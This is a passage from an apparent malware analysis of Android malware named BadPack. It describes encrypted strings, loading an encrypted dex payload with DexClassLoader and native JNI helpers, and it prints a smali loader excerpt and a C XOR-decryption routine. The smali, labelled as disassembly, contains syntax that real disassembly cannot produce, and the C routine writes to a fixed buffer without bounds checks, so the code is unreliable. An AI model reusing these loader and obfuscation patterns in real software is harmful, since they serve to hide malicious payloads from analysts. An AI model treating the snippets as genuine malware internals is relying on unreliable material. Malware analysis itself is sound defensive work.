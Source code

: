 The payload is encrypted using a custom algorithm and is only decrypted in memory during execution, complicating static analysis.

---

## 4. Low-Level Technical Details

### A. Obfuscation and Code Injection

BadPack uses several obfuscation techniques:
- **String Encryption:** Critical strings (such as URLs and command keywords) are stored in an obfuscated form and decrypted at runtime.
- **Dynamic Code Loading:** The payload is stored as an encrypted dex file within the assets folder. After performing integrity checks, the malware uses `DexClassLoader` to load the payload.

### B. Native Components

In some variants, native libraries (compiled in C/C++) are used to execute performance-critical tasks, such as cryptographic functions and process injection routines. The native code interacts with Java components via JNI, further complicating reverse engineering.

### C. Sample Smali Analysis

Below is an excerpt from the disassembled smali code that loads the encrypted payload:

```smali
.method private loadEncryptedPayload()V
    .locals 3

    const-string v0, "payload_encrypted"
    invoke-static {v0}, Lcom/badpack/utils/Decryptor;->decrypt(Ljava/lang/String;)Ljava/lang/String;
    move-result-object v1

    const-string v2, "/data/data/com.badpack/files/temp.dex"
    new-instance v0, Ldalvik/system/DexClassLoader;
    invoke-direct {v0, v1, v2, null, getContextClassLoader()}, Ldalvik/system/DexClassLoader;-><init>(Ljava/lang/String;Ljava/lang/String;Ljava/lang/String;Ljava/lang/ClassLoader;)V

    const-string v1, "com.badpack.payload.Main"
    invoke-virtual {v0, v1}, Ldalvik/system/DexClassLoader;->loadClass(Ljava/lang/String;)Ljava/lang/Class;
    move-result-object v1
    return-void
.end method
```

### D. Native Code Example (JNI)

```c
JNIEXPORT jstring JNICALL Java_com_badpack_utils_Decryptor_nativeDecrypt(JNIEnv *env, jobject obj, jstring encryptedStr) {
    const char *encStr = (*env)->GetStringUTFChars(env, encryptedStr, 0);
    char decrypted[256];
    for (int i = 0; i < strlen(encStr); i++) {
        decrypted[i] = encStr[i] ^ 0x5A;
    }
    decrypted[strlen(encStr)] = '\0';
    (*env)->ReleaseStringUTFChars(env, encryptedStr, encStr);
    return (*env)->NewStringUTF(env, decrypted);
}
```

---